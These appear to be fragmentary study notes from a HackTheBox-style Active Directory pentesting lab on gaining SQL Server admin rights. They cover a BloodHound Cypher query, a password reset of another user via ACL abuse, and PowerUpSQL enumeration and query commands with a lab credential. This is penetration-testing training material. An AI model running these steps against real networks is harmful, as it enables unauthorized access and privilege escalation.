 dig around to plan our next move

 ---


## SQL Server Admin

More often than not, we will encounter SQL servers in the environments we face. It is common to find user and service accounts set up with sysadmin privileges on a given SQL server instance.

We may obtain credentials for an account with this access via Kerberoasting (common) or others such as LLMNR/NBT-NS Response Spoofing or password spraying. Another way that you may find SQL server credentials is using the tool [Snaffler](https://github.com/SnaffCon/Snaffler) to find web.config or other types of configuration files that contain SQL server connection strings.

BloodHound, once again, is a great bet for finding this type of access via the `SQLAdmin` edge. We can check for `SQL Admin Rights` in the `Node Info` tab for a given user or use this custom Cypher query to search:
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

#### Using a Custom Cypher Query to Check for SQL Admin Rights in BloodHound

https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet

steps:
```python
use our ACL rights to authenticate with the `wley` user
change the password for the `damundsen` user and then authenticate with the target using a tool such as `PowerUpSQL` via damndsun

Let's assume we changed the account password to `SQL1234!` using our ACL rights. We can now authenticate and run operating system commands.
```

#### Enumerating MSSQL Instances with PowerUpSQL
```powershell-session
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
```

```powershell-session
PS C:\htb>  Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```


[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> hostname
[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> Exit-PSSession